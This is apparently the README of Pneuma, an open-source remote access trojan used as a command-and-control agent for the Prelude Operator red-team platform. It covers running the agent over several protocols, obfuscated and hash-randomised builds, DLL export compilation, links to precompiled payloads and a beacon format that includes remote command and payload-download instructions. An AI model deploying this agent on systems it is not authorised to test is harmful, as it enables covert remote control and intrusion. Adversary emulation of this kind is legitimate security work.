 # Pneuma

Pneuma is a cross-compiled [Operator](https://prelude.org) agent which can communicate over all available listening post protocols, currently gRPC, TCP, UDP and HTTP.

> This repo is for those who feel comfortable working with the inner workings of a Remote Access Trojan (RAT). If you simply need a copy of the Pneuma agent, there are precompiled versions available for [MacOS](https://s3.amazonaws.com/operator.payloads.open/payloads/pneuma/pneuma-darwin), [Windows](https://s3.amazonaws.com/operator.payloads.open/payloads/pneuma/pneuma-windows.exe) and [Linux](https://s3.amazonaws.com/operator.payloads.open/payloads/pneuma/pneuma-linux). You will need to mark these as executable after downloading.

This agent can be used with Operator, as designed, or pointed at any command-and-control (C2) listening post that can accept its beacon. More details on this below.

## Getting started

Clone this repository. Then ensure GoLang 1.16+ is installed before continuing.

To use the agent, install GoLang then start the agent against whichever protocol you want:

> If using a precompiled version, replace 'go run main.go' with './pneuma-windows.exe' in the below commands, replacing pneuma.exe with the name of your downloaded file.

```
go run main.go -contact tcp -address 127.0.0.1:2323
go run main.go -contact udp -address 127.0.0.1:4545
go run main.go -contact http -address http://127.0.0.1:3391
go run main.go -contact grpc -address 127.0.0.1:2513
```

Change the address field to the location of Prelude Operator, if you are running your agent on a different computer.

> gRPC relies on protocol buffers to determine the structure of the data between client <--> server (beacons).
This is statically compiled, so if anything changed in the beacon properties the following command will recompile
the buffer:
```
protoc --go_out=. --go_opt=paths=source_relative --go-grpc_out=. --go-grpc_opt=paths=source_relative beacon.proto
```

## Compile

When you are ready to use Pneuma in a real environment, you will want to compile it into a binary by running the build.sh script, passing in any string as your unique (public) randomHash string, which ensures each compiled agent gets a different file hash:
```shell
./build.sh JWHQZM9Z4HQOYICDHW4OCJAXPPNHBA
```

On windows you can build with:

```powershell
.\build.ps1 -randomHash "JWHQZM9Z4HQOYICDHW4OCJAXPPNHBA"
```

There is also support for garble builds (Thanks to the amazing work here: https://github.com/burrowers/garble):

```shell
GO111MODULE=on go get mvdan.cc/garble
go mod tidy
./garble-build.sh JWHQZM9Z4HQOYICDHW4OCJAXPPNHBA
```

```powershell
GO111MODULE=on go get mvdan.cc/garble
go mod tidy
.\garble-build.ps1 -randomHash "JWHQZM9Z4HQOYICDHW4OCJAXPPNHBA"
```

This will output a file (into the payloads directory) for each supported operating system, which you can copy to any target system and execute normally
to start the agent. 

> Before you compile, consider changing the AESKey variable inside util/conf/default.json. This value represents
> the encryption key to encrypt/decrypt communications with Prelude Operator. This key must be 32-characters
> and must match the encryption key in the Prelude Operator Emulate section. Also consider
> changing the default address parameters in main.go, so you can start your agent without command-line arguments.

## C-Shared library compilation (DLL, SO, DyLib)

Pneuma supports cross compilation to 64-bit C-shared libraries depending upon the platform you are building on. When using a C-Shared library,
you must specifically compile in the parameters you want to configure in the `util/conf/default.json` file (specifically the `address`
and the `contact` you wish you use).

We currently support:

* **Windows**: `build.ps1` and `garble-build.ps1` builds DLL
* **Darwin**: `build.sh` and `garble-build.sh` builds DLL, Dylib, SO
  * Depends on `x86_64-w64-mingw32-gcc` (Windows) and `x86_64-linux-musl-gcc` (Linux)
* **Linux**: `build.sh` and `garble-build.sh` builds DLL, Dylib, SO
  * Depends on `x86_64-w64-mingw32-gcc` (Windows) and `o64-clang` (Darwin)

To install dependencies on Darwin:
```shell
brew install mingw-w64 FiloSottile/musl-cross/musl-cross
```

To install dependencies on Linux:
```shell
# yum repos for Windows builds
yum install mingw64-gcc

# apt repos for Windows builds
apt-get install mingw64-gcc

# Darwin builds
# Follow the instructions here: https://github.com/tpoechtrager/osxcross
```

Default exported functions:
```go
//export VoidFunc
func VoidFunc()

//export RunAgent
func RunAgent()

//export DllInstall
func DllInstall()

//export DllRegisterServer
func DllRegisterServer()

//export DllUnregisterServer
func DllUnregisterServer()
```

## Use without Operator

While Pneuma is designed to work with Prelude Operator, as an open-source agent you can point it against any command-and-control (C2) listening post you want. To do this, follow these instructions:

- Ensure your C2 is up & accepting traffic on the same Pneuma port you want to use
- Start Pneuma, pointing it at your C2
- The C2 server will send instructions in this format which get encrypted with your KEY inside Key Management in Settings:
```
{
  ID: "067e99fb-f88f-49a8-aadc-b5cadf3438d4",
  ttp: "0b726950-11fc-4b15-a7d3-0d6e9cfdbeab",
  tactic: "discovery",
  Executor: "sh",
  Request: "whoami",
  Payload: "https://s3.amazonaws.com/operator.payloads/demo.exe",
}
```
- Your C2 will receive an encrypted string, using the KEY inside cryptic.go. Your C2 should use the same encryption key to decrypt the string, which will resolve in a JSON-object, which will contain the below structure:
```
{
  "Name": "test",
  "Target": "0.0.0.0:2323",
  "Hostname": "ubuntu-host",
  "Location": "/tmp/me.go"
  "Platform": "darwin",
  "Executors": ["sh"],
  "Range": "red",
  "Pwd": "/tmp",
  "Links": []
}
```

- Your C2 should then fill in links (instructions) for the agent to complete. Each link should have the following structure. Response, Status and Pid will be filled in by Pneuma after running the Request:
```
{
  "ID": "123",
  "Executor": "sh",
  "Payload: "",
  "Request": "whoami",
  "Response: "",
  "Status: 0,
  "Pid": 0
}
```
- Encrypt your new JSON object with the same encryption key and send it back to the agent.

This ping/pong of this beacon/JSON-object should continue on whatever periodic basis you desire. 

## CALDERA inspired

As former CALDERA leads, we wrote the MITRE Sandcat and Manx agents. Pneuma is its own thing but it shares characteristics with both of these original agents.

## Interested in contributing?

We strongly support contributors to this project. Please fork this repo and submit pull requests for considerations.

### Write your own agent

We plan on publishing an agent interface in the future, to describe how to build your own agents in any language. In the meantime, this code was written in a simplistic way to be an example for any agent you want to build.
